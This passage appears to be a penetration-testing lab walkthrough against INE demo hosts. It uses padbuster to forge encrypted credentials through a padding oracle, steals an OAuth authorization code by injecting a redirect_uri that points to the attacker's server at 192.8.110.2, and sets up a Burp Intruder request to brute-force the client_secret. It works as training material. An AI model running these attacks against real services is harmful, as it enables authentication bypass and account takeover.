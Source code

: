 ```bash
padbuster "http://demo.ine.local/check?cipher=6b664ef0359fe233e021ad36b12d8e32" "6b664ef0359fe233e021ad36b12d8e32" 16 -encoding 1 -error "ApplicationUsername missing" -prefix "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e" -plaintext "=xyz&ApplicationUsername=authorization&Password=bypass"
```
Once finished, we get:
```bash
[+] Encrypted value is: 5455c513e812a5bfbddfa75194573f07d4ddee7f0f8ec540644a5e38679f39ea17f4add5e45ec7f74119ade4bf6e2615ab0b799bb09f03bb7dc3260512cf1a7400000000000000000000000000000000
```
Sending that in this url: http://demo.ine.local/check?cipher=5455c513e812a5bfbddfa75194573f07d4ddee7f0f8ec540644a5e38679f39ea17f4add5e45ec7f74119ade4bf6e2615ab0b799bb09f03bb7dc3260512cf1a7400000000000000000000000000000000 we can confirm that we were able to correctly encrypt the credentials.
# Attacking OAuth
## Create a code stealing PoC
This attack simply revoles on the redirect uri not being validated, so if we can inject our redirect uri to a request a client makes, then we can get the OAuth token by receiving it on our server.
We know that the response type should be "code", the scope "view_gallery" and the client id "photoprint". We construct the following request:
```bash
http://gallery:3005/oauth/authorize?response_type=code&scope=view_gallery&client_id=photoprint
```
If we issue it, we see that the request goes to OAuth server but fails as we are missing the redirect parameter, therefore let's include it. If our IP is: 192.8.110.2, we can use:
```bash
http://gallery:3005/oauth/authorize?response_type=code&scope=view_gallery&client_id=photoprint&redirect_uri=http://192.8.110.2/oauth
```
This way we will get a callback on our server with the OAuth code:
```bash
root@INE:~ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.8.110.2 - - [25/Jan/2023 16:46:59] code 404, message File not found
192.8.110.2 - - [25/Jan/2023 16:46:59] "GET /oauth?code=63558 HTTP/1.1" 404 -
```
## Based on the acquired code, bruteforce the client_secret
So, now we have an authorization code which we stole and is valid. By constructing a request to issue an OAuth token (a POST to /oauth/token) containing the client_id and code that we know, we can bruteforce the client_secret.
We send the following request to intruder:
```bash
POST /oauth/token HTTP/1.1
Host: gallery:3005
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://gallery:3005
Connection: close
Referer: http://gallery:3005/login
Cookie: connect.sid=s%3AyLmnwEXMSImfN_6B_4TIebntE3A_k789.TgIkQuM6qF5jujQ%2FxrUK3fMls8Oc%2Fk9nKCcJX5TRSJw
Upgrade-Insecure-Requests: 1

grant_type=authorization_code&client_id=photoprint&client_secret=§password§&code=63558&redirect_uri=http://gallery:3005/callback
```